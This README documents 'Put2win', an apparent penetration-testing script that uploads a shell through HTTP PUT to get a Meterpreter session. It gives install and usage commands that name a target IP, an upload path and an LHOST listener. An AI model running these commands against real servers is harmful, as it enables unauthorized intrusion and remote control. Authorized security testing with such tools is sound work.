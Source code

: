 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
git clone https://github.com/sysdevploit/put2win

# Usage
./Put2win.sh -h                                    
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10

# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
